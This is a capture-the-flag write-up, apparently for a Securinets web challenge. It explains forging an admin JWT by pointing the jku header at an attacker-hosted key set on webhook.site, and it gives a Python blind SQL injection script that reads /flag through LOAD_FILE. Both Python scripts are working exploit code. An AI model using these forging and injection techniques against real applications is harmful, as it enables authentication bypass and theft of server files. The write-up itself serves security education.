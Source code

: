 ## MeMent0o

After registering a new user on the site, we get a jwt toke. Copying it onto jwt.io we can see this

![image](https://github.com/user-attachments/assets/76e5b34e-41b0-43ee-8436-f8a9b58d2e94)

The JWT verifiction code:

![image](https://github.com/user-attachments/assets/e779381e-b7bb-495f-9c92-596fe15a8445)

![image](https://github.com/user-attachments/assets/a1fd2f4d-12ad-4264-a1f6-af7cf0c0b11a)

So the app is sending request to what the jku header is set to andretrieving the public key from it.
Hence we can create a new keypair of private and public keys, craft a JWT token with username: admin , set the jku 
header to http://mywebsite/jku where im placing my public key over there and then sign the JWT using my private key. 

To bypass kid verifications: Use a copy of their function app.go/jwks() with my public key to create the jku url content. 

script to create;
```
import jwt
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import serialization

# load private key from keypair.pem
with open("keypair.pem", "rb") as key_file:
    private_key = serialization.load_pem_private_key(key_file.read(),password=None,backend=default_backend())

payload = {
    "username": "admin"
}

headers = {
    "alg": "RS256",                        									# Algorithm for signing
    "typ": "JWT",                          									# Type of the token
    "jku": "https://webhook.site/4a0469d3-0f24-4ec4-a756-0d554f1064f7",  	# JSON Web Key Set URL
    "kid": "001122334455"                  									# Key ID
}

token = jwt.encode(payload, private_key, algorithm="RS256", headers=headers)
print("JWT Token:", token)
```

after sending this JWT to /get_creds we recieve the user credentials so we have the admin password

Now in /notes endpoint, we have a possible sql vuln
![image](https://github.com/user-attachments/assets/d97513a2-22eb-4e1c-ade9-271baa89d027)

SQL script used
```
import requests
import urllib.parse

confirmed_flag = "" # the flag found so far 
url = "http://web1.securinets.tn/notes?search="
alphas = "abcdefghijklmnopqrstuvwxyz1234567890{}" #possible_chars
cookies = {"session":"28d1de0946822fb5_670afeb6.d0K5YwPnOxymhhshUUDPn7Lfqr0"}

while True:
    for alpha in alphas:
        payload = f"%' AND 1=2 UNION SELECT 1,2,3 FROM(SELECT LOAD_FILE('/flag') AS content) AS subquery WHERE content LIKE '{confirmed_flag+alpha}%' ;#"
        full_url = url+urllib.parse.quote_plus(payload) # url encode payload since it will be in the params
		found = requests.get(full_url,cookies=cookies).text.count("<h3>") # each time we get a computer symbol it's inside an h3 tag
        if found: 
            confirmed_flag += alpha
            break
	print(confirmed_flag)
```
Why the script is needed:
- In a blind SQL injection scenario, you don't get direct feedback from the server about the results of the query (i.e., you don't immediately see the contents of the file or database). Instead, you only get some kind of yes/no response based on your query.
- The server may indicate whether your guess is correct by subtly altering its behavior. In this case, the server might return an HTML response containing an `<h3>` tag if your guess is correct.
